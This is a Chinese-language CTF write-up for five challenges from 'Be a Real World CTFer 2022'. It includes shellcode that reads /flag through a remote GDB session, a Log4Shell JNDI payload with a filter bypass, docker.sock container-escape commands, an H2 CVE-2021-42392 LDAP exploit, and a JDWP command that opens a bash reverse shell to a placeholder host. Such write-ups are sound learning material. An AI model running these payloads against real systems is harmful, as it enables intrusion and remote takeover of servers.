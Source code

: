 ```yaml
---
title: Be a Real World CTFer 2022 体验赛部分题目 writeup
date: 2022-01-23 13:37:33
tags:
- ctf
---
```


这场比赛是体验赛，签到题较多，没有设置过多的障碍，个人完成了其中的5题

<!--more-->

## Remote Debugger

题目提供了一个远程`GDB`环境调试一个简单程序，程序内只引用了`getchar`和`putchar`所以没有办法通过`p system()`之类的手段访问容器内的`flag`。但是我们可以通过手写`shellcode`的方式替换原来的程序执行`shellcode`

我最先尝试的是传一个反弹`shell`，在本地能够跑通但一放到题目的环境上就`SIGKILL`不知道为什么

最后手写了`shellcode`将`flag`写到`[rsp]`上

```assembly
section .text
  global _start
    _start:
        push rbp
        mov rbp,rsp
        xor rdx, rdx

        push 2
        pop rax ; syscall 2 -> read(*filename, flags, mode)
        push 0
        pop rsi ; flags -> 0 RO
        push 644
        pop rdx ; mode -> 644
        sub rsp, 8
        mov dword [rsp+4], 0x067
        mov dword [rsp], 0x616c662f ; -> /flag
        lea rdi, [rsp]
        add rsp, 8
        syscall

        push rax
        pop rdi ; rdi -> file handler
        push 0
        pop rax ; sys_read(fd, buf, count)
        push 30
        pop rdx ; count -> 30
        lea rsi, [rsp] ; buf -> rsp
        syscall
    _loop:
        jmp _loop ; 防止跑过头出错
```

编译：

```sh
nasm -f elf64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode.hex
for i in `objdump -d shellcode.hex | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done
```

执行：

```sh
target remote 106.14.170.199:1234
set $rip = main
restore shellcode binary $rip # 把 shellcode 写到 main 上 （处于可执行区段即可）
// Ctrl + C
x/s $rip
```

![gdb](gdb.png)

## log4flag

这一题没有什么好说的，就是最新的`log4j`漏洞

需要注意的是给出的程序有`filter`进行简单过滤：`(\$\{jndi:)|(ldap:)|(rmi:)`

这个可以用`toLower`来绕过

直接使用`poc`：[kozmer/log4j-shell-poc: A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. (github.com)](https://github.com/kozmer/log4j-shell-poc)

构造`payload`：

```
${${lower:j}ndi:${lower:l}dap://YOURIP/a}
```

## Be-a-Docker-Escaper

观察到容器映射了`docker.sock`

所以直接在容器内开一个新的容器去`cat flag`即可

命令：

```sh
apt-get update && apt-get install -y wget # 安装工具
wget https://download.docker.com/linux/static/stable/x86_64/docker-20.10.9.tgz # 下载 docker 我们只需要里面的 docker cli 就行
tar -xf docker-20.10.9.tgz
cd docker
./docker -H unix:///s run --rm -v /root/flag:/flag alpine cat /flag # 使用映射进来的 docker.sock 操作宿主的 docker 创建新容器并映射 flag
```

![docker](docker.png)

## Be-a-Database-Hacker 2

给出了一个带版本号的`h2`直接根据`2.0.202`搜索`CVE`发现：`CVE-2021-42392`

该`CVE`有人详细分析过：

1. https://0x0021h.github.io/2022/01/10/22/index.html
2. http://www.mastertheboss.com/jbossas/jboss-datasource/what-you-need-to-know-about-cve-2021-42392/

使用和`log4flag`一样的`poc`脚本

将`Driver Class`填入`javax.naming.InitialContext`

`JDBC URL`填入`ldap://YOURIP/a`

即可获得反弹`shell`

## Java Remote Debugger

原题？[浅析常见Debug调试器的安全隐患 - 博客 - 腾讯安全应急响应中心 (tencent.com)](https://security.tencent.com/index.php/blog/msg/137)

使用脚本：https://github.com/IOActive/jdwp-shellifier

```sh
python2 ./jdwp-shellifier.py -t 139.196.23.201 -p 8888 --break-on java.lang.String.indexOf --cmd 'bash -c {echo,BASE64ENCODEDSHELLCODE}|{base64,-d}|{bash,-i}'

BASE64ENCODEDSHELLCODE => /bin/bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1
```

![shell](shell.png)
